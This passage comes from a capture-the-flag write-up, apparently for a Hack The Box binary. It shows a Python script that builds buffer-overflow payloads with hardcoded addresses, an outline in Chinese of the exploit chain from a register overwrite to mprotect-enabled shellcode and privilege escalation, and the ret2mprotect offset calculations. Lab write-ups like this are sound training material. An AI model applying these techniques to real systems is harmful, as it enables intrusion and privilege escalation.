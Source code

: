 ![allcalcregs](https://alicdn.kmahyyg.xyz/asset_files/htb7/calamati-8.webp)

The ebx should be `0x80002ff4`.

### Final script to build payload 1,2

```python
#!/usr/bin/env python3

import struct
import sys

args = len(sys.argv)
print(args)
with open('patchfile', 'wb') as tfile:
    if args == 1:
        tfile.write(b'ABCDEFGH')
        tfile.write(b'\xf8\x2f\x00\x80') #0x80002ff8
    if args == 2:
        tfile.write(struct.pack("<I", int(sys.argv[1], 16)))
        tfile.write(b'BBBB')
        tfile.write(struct.pack("<I", 0x80002FF4))
```

## SORT ALL THINGS OUT ABOVE!

1. 由于启用了 NX，所以 PIE 生效后 GOT 表必须有一个寄存器指向，以便间接访问。
2. 由于我们有源代码，所以可以知道全局变量表里的 hey 这个对应的 struct 的内存结构
3. 根据对 main 函数和 attempt_login 函数的反汇编，我们可以根据栈的 FILO 特性知道对应参数使用了哪些寄存器。
4. 对应各类寄存器，继续向上查找寄存器设定代码，获得寄存器之间的设定关系。根据缓冲区溢出的结果，确定字符串长度与对应寄存器的控制关系。
5. 利用程序可以动态加载用户文件的特性，构造对应 payload, 修改 BX 寄存器，达到读写特定变量的目的
6. 整体流程：构造 Payload -> 读取 Secret -> 将 Secret 输入到 hey.user -> 构造 Payload -> 验证通过，显示 RAMMAP -> 利用 mprotect 使栈内的代码可执行 -> shellcode 入栈 -> 提权完成。

## Ret2mprotect

Run the code we offered above, and after you see the RAMMAP. You were asked to offer another file here. Let's create a pattern in 100 chars with `pattern create 100 test100`, then offer it to the program, finally `pattern search` to get the data address in stack which overrided EIP, Here, it's 0xbffff5b0.

![rammap](https://alicdn.kmahyyg.xyz/asset_files/htb7/calamati-9.webp)
![offsetcheck](https://alicdn.kmahyyg.xyz/asset_files/htb7/calamati-10.webp)

According to the `disas main` and the man page of `mprotect`.

> int mprotect(void *addr, size_t len, int prot);

The `addr` is the starting address we need to set to RWX. set RWX ends at `addr+len`, `prot` is the UNIX Permission.

Address must be in stack, which is `bfedf000`, the length should be `0xc0000000 - 0xbfedf000 = 0x121000`, the `prot` is `0x7`.
